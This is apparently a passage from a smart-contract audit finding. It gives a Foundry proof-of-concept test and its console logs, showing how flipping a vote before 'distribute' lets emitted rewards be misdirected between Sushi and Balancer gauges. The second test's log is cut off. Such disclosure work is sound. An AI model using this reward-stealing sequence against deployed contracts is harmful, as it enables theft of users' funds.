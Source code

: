 ```solidity
    hevm.warp(period + nextEpoch);

    // Before distribute, flip vote
    pools[0] = balancerPoolAddress;
    hevm.prank(admin);
    voter.vote(tokenId, pools, weights, 0);

    // distribute executed after vote flip
    console.log("\nAfter 2nd vote flip (+EPOCH):");
    console.log("claimable[sushiGauge]:", voter.claimable(address(sushiGauge)));
    console.log("claimable[balancerGauge]:", voter.claimable(address(balancerGauge)));
    
    voter.distribute();
    voter.updateFor(gauges);

    console.log("\nAfter 2nd distribute and updateFor:");
    console.log("claimable[sushiGauge]:", voter.claimable(address(sushiGauge)));
    console.log("claimable[balancerGauge]:", voter.claimable(address(balancerGauge)));
    
    assertFalse(voter.claimable(address(sushiGauge)) > 0);
    assertFalse(voter.claimable(address(balancerGauge)) == 0);
}
```

**Console Output:**

```shell
> FOUNDRY_PROFILE=default forge test --fork-url $FORK_URL --fork-block-number 17133822 --match-contract VotingTest --match-test testStealingEmittedRewardsBug -vv

Ran 2 tests for src/test/Voting.t.sol:VotingTest
[PASS] testStealingEmittedRewardsBugDistributeBeforeVote() (gas: 4564380)
Logs:

Before 1st vote:
  claimable[sushiGauge]: 0
  claimable[balancerGauge]: 0

After 1st vote:
  claimable[sushiGauge]: 0
  claimable[balancerGauge]: 0

After 1st distribute and updateFor (+EPOCH):
  claimable[sushiGauge]: 5037599999999999999999
  claimable[balancerGauge]: 0

After 2nd distribute and updateFor (+EPOCH):
  claimable[sushiGauge]: 4985599999999999999999
  claimable[balancerGauge]: 0

After 2nd vote flip:
  claimable[sushiGauge]: 4985599999999999999999
  claimable[balancerGauge]: 0

[PASS] testStealingEmittedRewardsBugVoteBeforeDistribute() (gas: 4544545)
Logs:

Before 1st vote:
  claimable[sushiGauge]: 0
  claimable[balancerGauge]: 0

After 1st vote:
  claimable[sushiGauge]: 0
  claimable[balancerGauge]: 0
```